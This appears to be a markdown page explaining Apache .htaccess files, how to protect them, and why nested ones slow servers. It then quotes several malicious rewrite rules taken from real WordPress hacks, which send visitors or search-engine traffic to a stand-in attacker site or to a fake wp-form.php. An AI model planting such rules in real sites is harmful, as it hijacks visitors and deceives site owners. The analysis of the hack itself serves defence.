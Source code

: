 ## background of htaccess
Htaccess allows you to make configuration changes on a directory for Apache HHTP Server. Redirect and mod_rewrite the URI 

It will not be visible under standard Apache setup which blocks all files starting with.ht from being served. So nobody will be able to view the contents or get at it through the Apache front-end. Take the usual precaution of having it be 644 permissions and not owned by the user that Apache runs as. No extra security needed outside of protecting your server generally.

Check that the standard protection is in place, so it can't be viewed. Easiest way is just to try visiting it in a web browser. You should get a 403 forbidden.
644 /444
If you're worried you could put the rules in the main server config instead. I wouldn't worry as long as the above is in place
#
# The following lines prevent .htaccess and .htpasswd files from being
# viewed by Web clients.
#
<FilesMatch "^\.ht">
        Require all denied
</FilesMatch>

<files ~ "^.*.([Hh][Tt][Aa])">
order allow,deny
deny from all
satisfyall
</files>

Anything you can do with a .htaccess file you can do with the server main configuration file better!

If you have root access to your server, you can make changes in the httpd.conf file for Apache. This is much better than using the .htaccess file.

Why you should not use the .htaccess file.
The reason you should not use the .htaccess file is that it slows down every request. This performance hit is only increased when your server is under high load. Because the .htaccess file modifies the server configuration in a directory, it essentially forces the server to reconfigure when serving from that directory.

That takes time!

The server must execute the .htaccess file to use it. This means that the server will need to use extra RAM, CPU power, and computing time to process a .htaccess file. This means each request that runs through a .htaccess file will take more resources and time.

You may not think this is a huge problem. But, this problem compounds itself when you stack .htaccess files in directories and sub-directories.


Your website is built with WordPress. Your blog has a few pictures in each post. Let's say your root domain is located in the /public_html directory.

The following images are included in a blog post.

/public_html/wp-content/uploads/2017/06/image1.jpg
/public_html/wp-content/uploads/2017/06/image2.jpg
/public_html/wp-content/uploads/2017/06/image3.jpg
You also have an .htaccess file in /public_html and one in /wp-content.

This means that your server must execute the first .htaccess file. Then it must execute the second one. After that, it looks for a .htaccess file in /uploads, then in /2017, and finally in /06.

Let's say if the htaccess file is there.
How are we going to take over it from there.

https://make.wordpress.org/support/handbook/appendix/breakfix-lessons/hacked-htaccess-redirect/
The following snippit comes from a real hack. This code was found in the .htaccess files and checks for any traffic to be sent to the site and it automatically redirects to another site.

<IfModule mod_rewrite.c>
        RewriteEngine On
        RewriteBase /
        RewriteCond %{HTTP_REFERER} ^http://[w.]*([^/]+)
        RewriteCond %{HTTP_HOST}/%1 !^[w.]*([^/]+)/\1$ [NC]
        RewriteRule ^.*$ http://EVILHACKERSITE.COM [L,R]
</IfModule>
This code is slightly more clever and only redirects html or xml pages. This is clever because it’s not something you’d actually notice unless you went to a html file (something WP sites rarely do).

<IfModule mod_rewrite.c>
        RewriteEngine On
        RewriteRule ([^.]+\.(html|xml|))$ http://EVILHACKERSITE.COM [L,R]
</IfModule>
This one checks where you came from and if it was a search engine, redirects you.

RewriteEngine On
RewriteCond %{HTTP_REFERER} .*google.*$ [NC,OR]
RewriteCond %{HTTP_REFERER} .*aol.*$ [NC,OR]
RewriteCond %{HTTP_REFERER} .*msn.*$ [NC,OR]
RewriteCond %{HTTP_REFERER} .*altavista.*$ [NC,OR]
RewriteCond %{HTTP_REFERER} .*ask.*$ [NC,OR]
RewriteCond %{HTTP_REFERER} .*yahoo.*$ [NC]
RewriteRule .* http://EVILHACKERSITE.COM/in.html?s=hg [R,L]
Errordocument 404 http://EVILHACKERSITE.COM/in.html?s=hg_err
Here’s another, that tries to blend the last two by detecting search engines or if you’re going to a named file extension (again, something most WordPress visitors never do) and redirect them.

<IfModule mod_rewrite.c>
        RewriteEngine On
        RewriteCond %{HTTP_USER_AGENT} (google|msn|aol|bing) [NC,OR]
        RewriteCond %{HTTP_REFERER} (yahoo|google|aol|bing) [NC]
        RewriteCond %{REQUEST_URI} /$ [OR]
        RewriteCond %{REQUEST_FILENAME} (html|htm|shtm|shtml|php|php3|php4|php5)$ [NC]
        RewriteCond %{REQUEST_FILENAME} !wp-form\.php$
        RewriteRule ^.*?$ /wp-form.php [L]
</IfModule>

Where this one gets super sneaky is that it made a file called wp-form.php, which looks like but is not a real WordPress file. In that file was a series of checks and redirects which sent the visitor to another website. Where this particular hack failed is that the wp-admin pages usually end in .php, so the site admin noticed that he was being redirected when he tried to go to, say, example.com/wp-admin/plugins.php – Ooops.
